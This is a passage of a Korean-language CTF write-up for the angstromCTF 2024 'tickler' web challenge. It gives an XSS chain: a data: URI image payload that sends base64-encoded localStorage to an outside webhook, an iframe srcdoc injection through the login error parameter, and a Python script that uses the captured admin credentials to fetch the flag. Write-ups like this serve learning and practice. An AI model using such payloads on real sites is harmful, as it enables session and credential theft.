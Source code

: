 프로필을 업데이트할 때, 위 코드가 실행되고 있는 서버로 `fetch()`하여 이미지를 업데이트 해준다.       
        
<img src="/assets/images/ctf/2024/angstrom/tickler/profile.jpg" width="700px">                        
                  
프로필 업데이트를 누르면, 이미지가 바뀐 것을 확인할 수 있다.           
            
`data:window.location="https://tjchkab.request.dreamhack.games/?d="+btoa(JSON.stringify(window.localStorage))//;base64,dGVzdA==`              

`https://tickler.web.actf.co/picture?username=guest12345` 페이지에 방문하면, 위 내용이 존재하고, `<script>`의 `src`에서 해당 링크를 불러오면 스크립트가 실행된다.      
                                     
`https://tickler.web.actf.co/login?error=<iframe srcdoc="<script src='https://tickler.web.actf.co/picture?username=guest12345'></script>"</iframe>`             
                
최종적으로, 위 스크립트를 봇에게 전달하면, `webhook`을 통해 `username`과 `password` 값을 받을 수 있다.     

<img src="/assets/images/ctf/2024/angstrom/tickler/request.jpg" width="700px">               

<img src="/assets/images/ctf/2024/angstrom/tickler/admin.jpg" width="700px">                                 

```python
import requests

url = "https://tickler.web.actf.co"

s = requests.session()

r = s.get(
    f"{url}/api/getFlag",
    headers={"Login": "95d8f04e645b6e949cae2447fb9d49e6:004261d7a4025246b994fb909fc2efdc"}
)
print(r.text)
```       
  